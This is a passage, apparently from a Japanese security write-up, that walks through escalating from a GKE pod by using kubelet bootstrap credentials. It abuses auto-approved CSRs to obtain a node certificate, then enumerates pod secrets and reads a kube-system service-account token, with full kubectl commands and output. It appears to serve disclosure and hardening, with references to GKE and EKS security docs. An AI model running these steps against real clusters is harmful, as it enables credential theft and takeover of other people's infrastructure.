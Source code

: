 CertificateSigningRequest を作成すると kube-controoler-manager によって自動承認されます。[^2]

```shell
root@test:/# ./kubectl create -f /tmp/kubelet.yaml --certificate-authority=bootstrap/ca.crt --server=https://$KUBERNETES_MASTER_NAME --client-certificate=bootstrap/kubelet-bootstrap.crt --client-key=bootstrap/kubelet-bootstrap.key
certificatesigningrequest.certificates.k8s.io/node-csr-gke-sandbox-cluster-default-pool-f9270e72-mg63-2 created
```

証明書が承認されたので、クライアント証明書を取得します。

```shell
root@test:/# ./kubectl --certificate-authority=bootstrap/ca.crt --server=https://$KUBERNETES_MASTER_NAME --client-certificate=bootstrap/kubelet-bootstrap.crt --client-key=bootstrap/kubelet-bootstrap.key get csr
NAME                                                        AGE   REQUESTOR                                                    CONDITION
csr-tsfx7                                                   37m   system:node:gke-sandbox-cluster-default-pool-f9270e72-mg63   Approved,Issued
node-csr-P4UgPH1KuYujxgQkDUWU1cWtUcMlEBXl5kn0WqUxS3Y        37m   kubelet                                                      Approved,Issued
node-csr-gke-sandbox-cluster-default-pool-f9270e72-mg63-2   66s   kubelet                                                      Approved,Issued

root@test:/# ./kubectl --certificate-authority=bootstrap/ca.crt --server=https://$KUBERNETES_MASTER_NAME --client-certificate=bootstrap/kubelet-bootstrap.crt --client-key=bootstrap/kubelet-bootstrap.key get csr node-csr-gke-sandbox-cluster-default-pool-f9270e72-mg63-2 -o jsonpath='{.status.certificate}' | base64 -d > /tmp/kubelet.crt
```

これで Pod の一覧と、その Pod で使われている Secret を閲覧できるようになります。Secret の一覧はできませんが、Get はできるので Pod で利用中の Secret は取得することが可能です。

```shell
root@test:/# ./kubectl --certificate-authority=bootstrap/ca.crt --server=https://$KUBERNETES_MASTER_NAME --client-certificate=/tmp/kubelet.crt --client-key=/tmp/kubelet.key get pods
NAME   READY   STATUS    RESTARTS   AGE
test   1/1     Running   0          40m

root@test:/# ./kubectl --certificate-authority=bootstrap/ca.crt --server=https://$KUBERNETES_MASTER_NAME --client-certificate=/tmp/kubelet.crt --client-key=/tmp/kubelet.key get pods --all-namespaces -o=jsonpath='{range .items[*]}{.metadata.namespace}{"|"}{.metadata.name}{"|"}{.spec.volumes[*].secret.secretName}{"\n"}{end}'
default|test|default-token-xjxn2
kube-system|event-exporter-v0.3.0-5cd6ccb7f7-d6vnv|event-exporter-sa-token-t4jdk
kube-system|fluentd-gcp-scaler-6855f55bcc-kck48|fluentd-gcp-scaler-token-s767f
kube-system|fluentd-gcp-v3.1.1-zg5bc|fluentd-gcp-token-qlljh
kube-system|heapster-gke-858f6d47db-jmdm8|heapster-token-l47xx
kube-system|kube-dns-5c446b66bd-xbmn2|kube-dns-token-fx6l4
kube-system|kube-dns-autoscaler-6b7f784798-9q2mq|kube-dns-autoscaler-token-r5xl4
kube-system|kube-proxy-gke-sandbox-cluster-default-pool-f9270e72-mg63|
kube-system|l7-default-backend-84c9fcfbb-97tsn|default-token-psndk
kube-system|metrics-server-v0.3.3-fdc67d4b6-wglqz|metrics-server-token-d74js
kube-system|prometheus-to-sd-q7s2f|prometheus-to-sd-token-876dc
kube-system|stackdriver-metadata-agent-cluster-level-7df5d5fb48-v9l8w|metadata-agent-token-vnpdq

root@test:/# ./kubectl --certificate-authority=bootstrap/ca.crt --server=https://$KUBERNETES_MASTER_NAME --client-certificate=/tmp/kubelet.crt --client-key=/tmp/kubelet.key get secret -n kube-system prometheus-to-sd-token-876dc -o yaml
apiVersion: v1
data:
  ca.crt: LS0t...==
  namespace: a3ViZS1zeXN0ZW0=
  token: ZXlKXa...==
kind: Secret
metadata:
```

[^1]: https://cloud.google.com/kubernetes-engine/docs/concepts/cluster-trust
[^2]: https://kubernetes.io/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers
[^3]: https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity
[^4]: https://cloud.google.com/kubernetes-engine/docs/how-to/shielded-gke-nodes
[^5]: https://docs.aws.amazon.com/eks/latest/userguide/best-practices-security.html
